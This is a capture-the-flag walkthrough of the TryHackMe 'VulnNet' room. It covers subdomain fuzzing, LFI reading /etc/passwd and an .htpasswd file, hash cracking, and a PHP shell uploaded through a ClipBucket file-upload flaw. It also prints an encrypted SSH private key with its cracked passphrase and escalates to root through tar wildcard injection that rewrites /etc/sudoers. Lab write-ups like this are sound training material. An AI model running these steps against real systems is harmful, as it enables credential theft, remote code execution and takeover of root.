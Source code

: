 # 71 - VulnNet (LFI, JS code review, tar \*)

Room Link --> [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)

You will have to add a machine IP with domain: `vulnnet.thm` to your /etc/hosts

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.33.25 -p- -sV -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

Navigating to the webpage `http://vulnnet.thm` .

<figure><img src=".gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

#### Gobuster Enumeration

{% code overflow="wrap" %}
```bash
gobuster dir -u http://vulnnet.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403 -b 404

/css
/js
/img
/fonts
```
{% endcode %}

#### Subdomain Bruteforce / Discovery

{% code overflow="wrap" %}
```bash
ffuf -u http://vulnnet.thm -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.vulnnet.thm' -fs 5829

broadcast
```
{% endcode %}

This leads to an authentication page.

[http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

<figure><img src=".gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

But we don't have any credentials.&#x20;

I enumerated the JavaScript files in the JS dir, and found a parameter in the `index__d8338055.js` file:  --> \`[http://vulnnet.thm/index.php?referer=](http://vulnnet.thm/index.php?referer=)\`

<figure><img src=".gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So i check for LFI and it worked:

[http://vulnnet.thm/index.php?referer=/etc/passwd](http://vulnnet.thm/index.php?referer=/etc/passwd)

<figure><img src=".gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

Back to the [http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

The page is using a Basic authentication

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try to view the file that stores credentials for Basic Authentication on Ubuntu Apache, ie the `htpasswd` file. Located at `/etc/apache2/.htpasswd`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reading the file and we see a credential:

`developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0` .

Cracking with John.

Cracked --> `developers :  9972761drmfsls` .

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Poceed to login to the page. And got a `Clipbucket CMS` .

So Google Exploit for ClipBucket v4.0 exploits, and saw a [FIle Upload Exploit](https://www.exploit-db.com/exploits/44250).

### Initial Access

#### Uploading malicious php file.

Using Curl

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls
creating file{"success":"yes","file_name":"169989120868ca6d","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We naviigate to [http://broadcast.vulnnet.thm/actions/](http://broadcast.vulnnet.thm/actions/) There is a `CB_BEATS_UPLOAD_DIR`

We execute it and get shell.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Server-management user

There is a backup folder in the /var dir with some .gz files with Read privs on the, so we can download to kali and untar them.

{% code overflow="wrap" lineNumbers="true" %}
```bash
-rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
```
{% endcode %}

After untaring the file there is a `id_rsa` file.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We use `ssh2john` to crack the key password.

`oneTWO3gOyac`

```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh server-management@broadcast.vulnnet.thm -i id_rsa
```

Adnd am logged in.

### Priv Esc to Root

There is a cronjob running as root every 2 minutes.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
server-management@vulnnet:/var/opt$ cat backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

Its backingup everything in the Documents dir and saving to /var/backups dir every 2 minutes.

We can exploit the `*` (wildcard) there.

However, to exploit the vulnerability, execute below commands in the **/home/server-management/Documents/**.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we just add ourself to the /etc/sudoers file.
</strong><strong>echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
</strong>echo "" > "--checkpoint-action=exec=sh exploit.sh"
echo "" > --checkpoint=1
</code></pre>

Now, wait 2 minutes, and execute `sudo /bin/bash` and your are **ROOT!**.

Done!

